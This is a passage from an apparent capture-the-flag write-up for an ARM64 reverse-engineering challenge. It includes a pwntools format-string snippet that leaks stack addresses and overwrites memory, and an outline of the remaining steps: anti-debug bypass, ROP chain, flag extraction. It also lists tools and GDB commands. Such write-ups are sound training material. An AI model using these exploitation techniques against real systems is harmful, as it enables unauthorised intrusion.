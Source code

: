 ### Alternative: Format String Attack

If there's a format string vulnerability, we can exploit it:

```python
# Leak stack addresses first
payload1 = b"%p " * 20
p.sendline(payload1)
leak = p.recvline()

# Parse leaked addresses
addresses = [int(addr, 16) for addr in leak.split() if '0x' in str(addr)]

# Use leaked addresses for further exploitation
target_address = addresses[5]  # Adjust based on analysis
payload2 = f"%{target_address & 0xffff}c%8$hn".encode()
```

## Solution Steps

1. **Static Analysis**: Use Ghidra/IDA to understand the binary structure
2. **Anti-Debug Bypass**: Patch or circumvent protection mechanisms  
3. **String Decryption**: Reverse the encryption algorithm
4. **Vulnerability Discovery**: Identify the buffer overflow
5. **Exploit Development**: Craft ROP chain for ARM64
6. **Flag Extraction**: Execute exploit to retrieve flag

## Tools and Resources

### Essential Tools
- **Ghidra**: Free reverse engineering platform
- **GDB with GEF**: Enhanced debugger for ARM64
- **QEMU**: ARM64 emulation for testing
- **pwntools**: Python exploitation framework

### ARM64 Resources
- [ARM64 Architecture Reference Manual](https://developer.arm.com/documentation/ddi0487/latest/)
- [ARM64 Assembly Quick Reference](https://courses.cs.washington.edu/courses/cse469/18wi/Materials/arm64.pdf)
- [GEF Documentation](https://hugsy.github.io/gef/)

### Useful GDB Commands for ARM64
```bash
# Set architecture
set architecture aarch64

# Examine registers
info registers
p/x $x0

# Disassemble current function
disas $pc

# Step through instructions
stepi
nexti
```
